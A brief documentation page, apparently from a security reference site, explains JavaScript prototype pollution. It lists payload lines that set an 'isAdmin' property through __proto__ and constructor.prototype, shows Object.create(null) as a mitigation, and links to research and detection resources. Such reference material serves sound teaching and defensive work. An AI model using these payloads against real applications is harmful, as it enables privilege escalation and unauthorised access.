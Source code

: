 ```yaml
---
title: "Prototype Pollution"
description: "Overview of Prototype Pollution"
lead: "Overview of Prototype Pollution"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "topics"
weight: 620
toc: true
---
```


## Payloads

```js
obj.__proto__.isAdmin = true;
obj["__proto__"]["isAdmin"] = true;

obj.constructor.prototype.isAdmin = true;
obj["constructor"]["prototype"]["isAdmin"] = true;
```

## Mitigation

```js
({}).isAdmin
=> true

Object.create(null).isAdmin
=> undefined
```

## Resources

- [Server-side prototype pollution: Black-box detection without the DoS](https://portswigger.net/research/server-side-prototype-pollution)
- [Server side prototype pollution, how to detect and exploit](https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
- [Research on Prototype Pollution](https://blog.s1r1us.ninja/research/PP)
- [CodeQL Prototype-polluting function](https://codeql.github.com/codeql-query-help/javascript/js-prototype-pollution-utility/)

